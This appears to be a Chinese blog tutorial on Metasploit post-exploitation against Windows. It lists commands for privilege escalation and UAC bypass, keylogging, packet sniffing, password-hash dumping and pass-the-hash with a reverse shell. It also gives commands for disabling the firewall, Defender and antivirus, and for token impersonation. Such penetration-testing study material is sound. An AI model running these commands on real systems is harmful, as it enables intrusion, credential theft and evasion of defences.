权限提升、信息收集、HASH、关闭防火墙、令牌假冒
Metasploit后渗透
01 权限提升
权限提升
使用msf获取sessions后，可以使用getuid查看当前用户

当前为root权限，不是system权限权限提升有三种方法：
- 提高程序运行级别
- UAC绕过
- 利用提权漏洞进行提权
提高程序运行级别
使用的msf模块：exploit/windows/local/ask
设置session的ID，使用run执行即可再次切换到session，使用getsystem命令提权
发现已经获得了system权限
这种方法需要靶机在弹出框中点击允许，容易被防范
UAC绕过
使用的msf模块：exploit/windows/local/bypassuac
设置session的ID，然后执行再次切换到session，使用getsystem命令提权
发现已经获得了system权限这种方法不需要需要靶机参与
利用提权漏洞进行提权
使用的msf模块：exploit/windows/local/ms14_058_track_popup_menu
仍然是设置session的ID，然后执行
再次切换到session,使用getid命令，发现已经获得了system权限，不需要再次执行getsystem命令
02 信息收集
信息收集相关模块
- 获取硬盘分区：run post/windows/gather/forensics/enum_drives
- 判断是否为虚拟机：run post/windows/gather/checkvm
- 查看开启的服务：run post/windows/gather/enum_services
- 查看共享：run post/windows/gather/enum_shares
- 查看最近的文件操作：run post/windows/gather/dumplinks
- 查看安装的软件信息：run post/windows/gather/enum_applications
- 查看补丁信息：run post/windows/gather/enum_patches
- 查看域控：run post/windows/gather/enum_domain
- 开启键盘记录： run keyscan_start
- 显示键盘记录：run keyscan_dump
- 停止键盘记录：run keyscan_stop
- 开启远程桌面：run post/windows/manage/enable_rdp run getgui -e
- 截图：screenshot
- 获取Chrome缓存：run post/windows/gather/enum_chrome
- 获取Firefox缓存：run post/windows/gather/enum_firefox
- 获取IE缓存：run post/windows/gather/enum_ie
- 获取常见信息： run scraper / run wienum
执行run scraper命令
导出的结果
执行run winenum命令
导出的结果
数据包捕获
- 抓包
- 加载sniffer：load sniffer
- 查看网卡信息：sniffer_interface
- 开启监听：sniffer_start 1
- 导出数据包：sniffer_dump 1 1.cap
- 解包
- run auxiliary/sniffer/psnuffle
- 抓取的包也可以用wireshark打开
- 另外两种抓包方式
- run packetrecorder
- run post/windows/manage/rpcapd_start
- 抓包
03 HASH
hash简介
windows下hash密码的格式：用户名：RID：LM-HASH：NT-HASHWindows系统帐户对应固定的RID：
- 500： ADMINISTRATOR
- 501： GUEST
- 502: krbtgt(域环境)
- 512: Domain Admins(域环境)
- 513: Domain Users(域环境)
- 514: Domain Guests(域环境)
- 515: Domain Computers(域环境)
- 516: Domain Controllers(域环境)
- 1000:root
LM-HASH是IBM设计的，安全性较差
NT-HASH是微软设计的，较为安全
获取hash值
- hashdump
- run post/windows/gather/hashdump
hashdump需要有system权限，或者root权限下绕过UAC - run post/windows/gather/smart_hashdump
smart_hashdump可以根据不同的权限和系统采取不同的行动
hashdump
run post/windows/gather/hashdump

run post/windows/gather/smart_hashdump

即使获取了权限，也最好得到管理员的账号密码，防止陌生人登录被发现。并且管理员可能在多个服务器上使用了相同的账号密码
HASH破解
- 在线破解
- 离线破解：findmyhash, L0phtCrack
- msf模块：run auxiliary/analyze/jtr_crack_fast
- hash传递：run exploit/windows/smb/psexec
hash传递，不用破解，直接使用hash进行登录
设置payload为反弹tcp，执行即可获取shell

如图可见user为root

04 关闭防火墙和杀毒软件
关闭防火墙（管理员及以上权限）（在Windows shell下执行）
Netsh advfirewall set allprofiles state off关闭Defender（在Windows shell下执行）
Net stop windefend关闭杀毒软件（在meterpreter下执行）
- run killav
- run post/windows/manage/killava
05 令牌假冒
简介
令牌假冒可以假冒一个网络中的另一个用户进行操作
令牌包括登录会话的安全信息，如用户身份识别、用户组和用户权限
当一个用户登录Windows系统是，他就被给定一个访问令牌作为认证会话的一部分Windows安全的相关概念
- Session
- Session就是一次远程登录或本地登录
- xp及之前每次登陆都会创建一个Session
- vista以后所有交互程序都在Session0中，远程交互在Session1、Session2中
- Window Station
- Windows Station中有不同的desktop
- win logon（登录的桌面）、screen saver（屏保的桌面）、default（平时用的桌面）
- Login Session
- 不同的账号登录产生不同的login Session，代表不同的账号权限
- Token
- 用户每次登陆，产生LoginSession分配的对应的Token
- Token含有该进程用户账号信息、组信息、权限信息等
- 访问资源时会提交Token进行身份验证
- Session
Incognito
- 独立软件，被集成到msf的meterpreter中
- 不用获取账号密码就能窃取Token伪装成合法用户
- 适用于域环境下提权渗透


本博客所有文章除特别声明外，均采用 CC BY-SA 3.0协议 。转载请注明出处！